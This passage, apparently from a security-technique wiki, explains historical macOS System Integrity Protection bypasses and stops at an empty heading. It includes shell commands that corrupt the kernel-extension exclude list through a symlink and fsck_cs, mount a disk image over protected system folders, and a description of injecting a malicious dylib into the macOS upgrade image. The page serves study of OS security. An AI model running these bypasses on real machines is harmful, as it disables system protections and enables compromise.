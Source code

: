 The commands to exploit this vulnerability are:

```bash
ln -s /System/Library/Extensions/AppleKextExcludeList.kext/Contents/Info.plist /dev/diskX
fsck_cs /dev/diskX 1>&-
touch /Library/Extensions/
reboot
```

The exploitation of this vulnerability has severe implications. The `Info.plist` file, normally responsible for managing permissions for kernel extensions, becomes ineffective. This includes the inability to blacklist certain extensions, such as `AppleHWAccess.kext`. Consequently, with the SIP's control mechanism out of order, this extension can be loaded, granting unauthorized read and write access to the system's RAM.

#### [Mount over SIP protected folders](https://www.slideshare.net/i0n1c/syscan360-stefan-esser-os-x-el-capitan-sinking-the-ship)

It was possible to mount a new file system over **SIP protected folders to bypass the protection**.

```bash
mkdir evil
# Add contento to the folder
hdiutil create -srcfolder evil evil.dmg
hdiutil attach -mountpoint /System/Library/Snadbox/ evil.dmg
```

#### [Upgrader bypass (2016)](https://objective-see.org/blog/blog_0x14.html)

The system is set to boot from an embedded installer disk image within the `Install macOS Sierra.app` to upgrade the OS, utilizing the `bless` utility. The command used is as follows:

```bash
/usr/sbin/bless -setBoot -folder /Volumes/Macintosh HD/macOS Install Data -bootefi /Volumes/Macintosh HD/macOS Install Data/boot.efi -options config="\macOS Install Data\com.apple.Boot" -label macOS Installer
```

The security of this process can be compromised if an attacker alters the upgrade image (`InstallESD.dmg`) before booting. The strategy involves substituting a dynamic loader (dyld) with a malicious version (`libBaseIA.dylib`). This replacement results in the execution of the attacker's code when the installer is initiated.

The attacker's code gains control during the upgrade process, exploiting the system's trust in the installer. The attack proceeds by altering the `InstallESD.dmg` image via method swizzling, particularly targeting the `extractBootBits` method. This allows the injection of malicious code before the disk image is employed.

Moreover, within the `InstallESD.dmg`, there's a `BaseSystem.dmg`, which serves as the upgrade code's root file system. Injecting a dynamic library into this allows the malicious code to operate within a process capable of altering OS-level files, significantly increasing the potential for system compromise.

#### [systemmigrationd (2023)](https://www.youtube.com/watch?v=zxZesAN-TEk)
